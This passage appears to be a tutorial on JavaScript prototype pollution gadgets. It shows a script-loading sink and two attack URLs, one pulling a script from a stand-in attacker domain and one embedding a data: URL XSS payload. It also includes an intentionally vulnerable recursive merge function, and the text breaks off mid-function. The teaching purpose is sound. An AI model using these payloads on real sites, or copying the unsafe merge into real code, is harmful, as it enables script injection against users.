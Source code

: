 ### Prototype pollution gadget
An exploitable gadget is any property that is passed into a sink without proper filtering or sanitization. Means that turning the prototype pollution vulnerability into an actual exploit.

#### Example:

```js
let transport_url = config.transport_url || defaults.transport_url;
```
Now imagine the library code uses this transport_url to add a script reference to the page:

```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

Attacker can pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by `config` object. If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix

#### Real-case example:

```js
// Example of vulnerable code that processes URL parameters
function processQueryParams(url) {
    let params = {};
    // Parse URL query parameters
    const queryString = new URLSearchParams(url.split('?')[1]);
    
    for (const [key, value] of queryString.entries()) {
        // Vulnerable recursive merge function
        merge(params, parseKey(key, value));
    }
    return params;
}

// Vulnerable merge function that recursively assigns properties
function merge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object') {
            if (!target[key]) target[key] = {};
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// Parse nested keys like "a[b][c]" into object structure
function parseKey(key, value) {
    let result = {};
    let current = result;
    let parts = key.match(/[^\[\]]+/g) || [];
```